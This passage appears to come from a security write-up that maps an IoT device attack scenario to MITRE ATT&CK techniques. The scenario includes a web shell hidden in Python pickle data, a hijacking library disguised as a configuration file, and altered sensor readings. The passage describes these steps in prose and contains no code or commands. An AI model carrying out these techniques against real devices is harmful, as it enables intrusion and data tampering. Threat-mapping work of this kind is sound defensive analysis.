- **Technique Map** : The scenario describes the attacker using a Python pickle bomb to hide the web shell attack program within normal bytes data stream. This is an example of obfuscating files or information, as the attacker is using a technique to hide the malicious code within a seemingly harmless data stream.

**T1036 - Masquerading**

- **Tactic**: Defense Evasion
- **Technique Map** : The attacker disguises a fake serial port library hijacking program as a configuration file and uploads it to the IoT device, which is an example of masquerading.

**T1562.001 - Impair Defenses: Disable or Modify Tools**

- **Tactic**: Defense Evasion
- **Technique Map** : he attacker in the scenario replaces the legitimate library file with a hijacking library file, which impairs the defenses of the IoT device by modifying a tool used for data readings.

**T1190 - Exploit Public-Facing Application**

- **Tactic**: Initial Access

- **Technique Map** :The scenario describes an attack on a public-facing web interface of an IoT device. The attacker exploits the web interface by implementing a web shell program for remote command execution and privilege escalation. This matches the technique of exploiting a public-facing application.

**T1485 - Data Destruction** 

- **Tactic**: Impact
- **Technique Map** : The scenario describes an attack where the attacker replaces a legitimate library file with a hijacking library file, resulting in all data readings being altered to zero. This matches the technique of Data Destruction, where the attacker intentionally destroys or alters data to disrupt the target's operations.


------

> Last edit by LiuYuancheng(liu_yuan_cheng@hotmail.com) at 13/07/2024,  if you have any problem please free to message me.